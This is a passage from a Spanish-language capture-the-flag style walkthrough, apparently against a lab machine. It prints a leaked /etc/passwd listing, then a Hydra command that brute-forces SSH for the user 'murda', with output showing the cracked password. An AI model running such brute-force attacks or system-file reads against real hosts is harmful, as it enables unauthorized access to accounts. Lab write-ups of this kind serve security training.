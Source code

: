 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
murda:x:1000:1000:murda,,,:/home/murda:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
violent:x:1001:1001:,,,:/home/violent:/bin/bash
yo:x:1002:1002:,,,:/home/yo:/bin/bash
ruin:x:1003:1003:,,,:/home/ruin:/bin/bash
theuser:x:1004:1004:,,,:/home/theuser:/bin/bash
suidy:x:1005:1005:,,,:/home/suidy:/bin/bash
```

Vemos que nos ha dejado, vamos a probar a lanzar `fuerza bruta` hacia el usuario llamado `murda` ya que es el primer usuario creado y si nos fijamos cambia algunas letras respecto al usuario que esta en la pagina que se menciono antes.

### Hydra

```shell
hydra -l murda -P <WORDLIST> ssh://<IP>/ -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 14:40:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.19:22/
[22][ssh] host: 192.168.5.19   login: murda   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 14:41:05
```

Veremos que hemos conseguido las credenciales de dicho usuario, por lo que vamos a conectarnos por `SSH`.

### SSH
